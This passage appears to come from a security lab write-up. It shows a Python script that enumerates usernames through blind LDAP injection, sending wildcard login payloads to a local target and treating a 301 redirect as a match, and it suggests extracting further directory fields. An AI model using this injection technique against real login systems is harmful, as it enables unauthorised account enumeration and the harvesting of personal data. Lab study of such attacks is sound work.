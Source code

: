```Python
        # user acumulator
        valid_user = character_i
        # bucle to find out the entire username (max username size: 20)
        for index in range (0, 15):
            for character_j in '\0' + string.ascii_lowercase:
                # data to be sent
                post_data = 'user_id={}{}*&password=*&login=1&submit=Submit'.format(valid_user, character_j)

                # use BurpSuite to debug the requests sent
                #r = requests.post(target_url, headers=headers, data=post_data, allow_redirects=False, proxies=burp)
                r = requests.post(target_url, headers=headers, data=post_data, allow_redirects=False)

                # validate character matched by validating the status code 301 (redirection)
                if r.status_code == 301:
                    valid_user += character_j
                    break

        valid_users.append(valid_user)

    return [valid_user for valid_user in valid_users if len(valid_user) > 1]

# CTRL+c
signal.signal(signal.SIGINT, def_handler)

# global variables
target_url = "http://localhost:8888/"
burp = {'http': 'http://127.0.0.1:8080'}   # use BurpSuite proxie to manage debugging

if __name__ == "__main__":
    print(get_valid_users())
```
![[Pasted image 20230730221330.png]]
We were able to **enumerate** usernames listed on **LDAP** server.
You can modify the *Python* script to retrieve the **FIELDS** created before like *telephoneNumber* and *description*.
Feel free to improve the *Python* code by using **recursive** functions and so on.
___